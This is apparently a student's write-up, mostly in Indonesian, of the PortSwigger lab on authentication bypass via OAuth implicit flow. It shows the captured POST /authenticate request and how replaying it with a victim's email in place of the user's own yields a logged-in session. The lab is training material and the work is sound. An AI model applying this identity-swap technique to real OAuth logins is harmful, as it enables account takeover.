




# Authentication bypass via OAuth implicit flow 

> **Lab Description:** This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password.
To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net.
You can log in with your own social media account using the following credentials: wiener:peter. 

## Lab Overview

| Property | Detail |
| :--- | :--- |
| **Category** | OAuth bypass |
| **Difficulty Level** | Apprentice |
| **Lab URL** | [PortSwigger Lab Link](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow) |
| **Status** | Solved |
| **Date Completed** | 2026-11-04 |

## Analysis
Pertama, saya mencoba login ke akun social media untuk memahami alur dari OAuth



Setelah berhasil login menggunakan akun sosial media, langsung redirect kedalam proses authorization yang meminta akses ke profile dan email, lalu confirm



Lalu akan redirect kedalam dashboard



Setelah itu saya analisis kembali HTTP History terutama pada POST /authenticate

```
POST /authenticate HTTP/2
Host: 0a6700d50438b87080a2309400e800b2.web-security-academy.net
Cookie: session=riW11PHO86w9ncTN0H8xHUo4mznnDmNr
Content-Length: 103
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Accept: application/json
Sec-Ch-Ua: "Not:A-Brand";v="8", "Chromium";v="156"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Origin: https://0a6700d50438b87080a2309400e800b2.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a6700d50438b87080a2309400e800b2.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"email":"wiener@hotdog.com","username":"wiener","token":"mklnweacTxp2ESWz5WJ2dZBghJd0j23gK9m-71AZowJ"}
```

Dari request itu, body mengirimkan email,username dan juga token autentikasi, lalu saya coba untuk melakukan repeater dan mengganti email wiener dengan email carlos@carlos-montoya.net lalu
request dan response server tidak mengambalikan error namun 302. Dari kasus ini bisa disimpulkan bahwa server tidak melakukan validasi pada token yang dikirimkan apakah token tersebut benar-benar dari
user yang valid.

```
HTTP/2 302 Found
Location: /
Set-Cookie: session=qQdek9Ch1EZQaXQXeMbOup68VLCNbLFF; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

## Exploitation
Dari proses analisis tersebut, saya akan mengirimkan request secara langsung dibrowser dengan menggunakan email carlos@carlos-montoya.net



## New Knowledge
- Memahami flow dari proses autentikasi menggunakan OAuth
- Memahami pentingnya validasi token dan pemeriksaan kecocokan identitas.

## References
- [https://www.geeksforgeeks.org/ethical-hacking/what-is-oauth-open-authorization/](https://www.geeksforgeeks.org/ethical-hacking/what-is-oauth-open-authorization/)
- [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)
